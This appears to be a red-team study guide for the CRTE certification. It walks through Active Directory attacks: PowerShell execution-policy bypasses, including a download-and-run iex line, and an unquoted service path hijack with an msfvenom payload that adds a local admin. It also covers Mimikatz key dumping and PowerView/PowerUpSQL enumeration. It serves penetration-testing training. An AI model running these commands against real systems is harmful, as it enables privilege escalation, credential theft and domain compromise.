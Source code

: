 # General

In the journey to CRTE you need to understand the basic methodology to audit an Active Directory Environment.

![Pasted image 20220428103516](https://user-images.githubusercontent.com/94725286/177431659-8f09fadf-9f2a-4a93-8c9e-8efdfc9a84f6.png)

>:exclamation: Domain Admin is not the only way to own an Active Directory environment.

>:exclamation: CRTE is not a certification oritented to exploit vulnerabilities, is oriented to abuse a missconfigured environment.

## Step 01 - Local enumeration

In a real red team operation, you don't have a high privilege account, you need to enumerate your local machine and your domain account.

In many case you have a minimum privileges account, in this case you don't have permission to execute scripts or tools. Is neccessay bypass those controls.

```
PS C:\Users\demiidk\Documents\> Get-ExecutionPolicy

Restricted
```

A good tool to bypass the Execution Policy is using [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell). 

Using InvisiShell you are able to bypass some controls.

>:warning: InvisiShell must be executed with CMD.

```
C:\Users\demiidk\Documments\> RunWithRegistryNonadmin.bat
```

With a InvisiShell terminal you're able to execute or import scripts.

A lot of techniques to bypass execution policy can be found on internet.

```
PS C:\Users\demiidk\Documents\> Get-Content .\PowerView.ps1 | PowerShell.exe -noprofile -
```

```
PS C:\Users\demiidk\Documents\> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://localhost:8080/PowerView.ps1')"
```

```
PS C:\Users\demiidk\Documents\> PowerShell.exe -ExecutionPolicy UnRestricted -File .\PowerView.ps1
```

```
PS C:\Users\demiidk\Documents\> PowerShell.exe -ExecutionPolicy Remote-signed -File .\PowerView.ps1
```

When you are able to import or execute script you can use PowerView or ActiveDirectory module to start to enumerating your system.

<br>

### Enumerating group membership

```
PS C:\Users\demiidk\Documents\> whoami /GROUPS
```

### Importing and executing PowerUp

```
PS C:\Users\demiidk\Documents\> Import-Module .\PowerUp.ps1; Invoke-AllChecks
```

### Importing Active Directory Module.

```
PS C:\Users\demiidk\Documents\> Import-Module .\Microsoft.ActiveDirectory.dll -Verbose
```

```
PS C:\Users\demiidk\Documents\> Import-Module .\ActiveDirectory.psd1
```
<br>

## Step 02 - Local Privilege Escalation

<br>

>:warning: In some cases is not possible to escalate privilege on the first machine. In this case is necessary enumerate another machines that you can access. Local Admin is a necessary permission to perform some attacks.

### Enumerating unquoted path services.

>:fire:	What is an Unquoted Path Services Hijacking?
>
>Is a miss configuration on the service executable reference. An unquoted path service can be attack replacing the legit executable to a malicious one if an attacker has permission to write on some place of the path. In the order to find for the executable, the operating system tries to execute each block in the path, each space in the executable path delimits a new block.

```
PS C:\Users\demiidk\Documents\> Get-WmiObject -Class win32_service | select pathname
```

### Perform an Unquoted Path Service Hijacking

If you identify a vulnerable path and wrong permission, you can place a payload to elevate your privileges.

Example:

```
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

The execution order is:

```
C:\Program.exe 
C:\Program Files\Vulnerable.exe 
C:\Program Files\Vulnerable service\path.exe
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

Having write privileges on one of those folder, is possible to place an executable with a malicious payload.

```
demiidk@root# msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators redteamuser /add" -f exe > path.exe
```

### Steal local keys with mimikatz (Using admini strator privilege)

```
PS C:\Users\demiidk\Documents\> Import-Module .\Mimikatz.ps1
```

```
PS C:\Users\demiidk\Documents\> Invoke-Mimikatz -Command "'sekurlsa::ekeys'"
```

### Using PowerUp:

```
PS C:\Users\demiidk\Documents\> import-module .\PowerUP.ps1
```

```
PS C:\Users\demiidk\Documents\> Invoke-AllChecks 
```
![](2022-10-30-01-51-02.png)

<br>

## Step 03 - Active Directory enumeration

>:eye: Useful tools for enumerating
>
>PowerView -> Great tool for Active Directory enumeration.
>ADModule -> Signed DLL used for Active Directory management.
>PowerUPSQL -> Dedicated tool for auditing MSSQL.

>:warning: Don't try to get domain admin user quickly, rarely you can own a domain admin account.

Enumerate all GPOs using "Restircted Groups"

> :information_source: A Restricted Group is an object to represent a local group in a computer.

```
PS C:\Users\demiidk\Documents\> Get-DomainGPOLocalGroup
```

Enumerate all members from a group (Using ADModule).

```
PS C:\Users\demiidk\Documents\> Get-ADGroupMember "Domain Admins" -Recursive

```

Enumerate all OUs.

```
PS C:\Users\demiidk\Documents\> Get-DomainOU
```

Enumerate OUs that contains "domain":

```
PS C:\Users\demiidk\Documents\> Get-DomainOU -Identity "*domain*"
```

Enumerate GPO applied to an OU:

```
PS C:\Users\demiidk\Documents\> Get-DomainGPO -Identity "{FCE16496-C744-4E46-AC89-2D01D76EAD68}"
```

Enumerate MSSQL servers and instances:
```
PS C:\Users\demiidk\Documents\> Get-SQLInstanceBroadcast -Verbose
```

Test if MSSQL is accessible:

```
PS C:\Users\demiidk\Documents\> Get-SQLConnectionTest -Instance SQLSRV01\SQL -Verbose
```

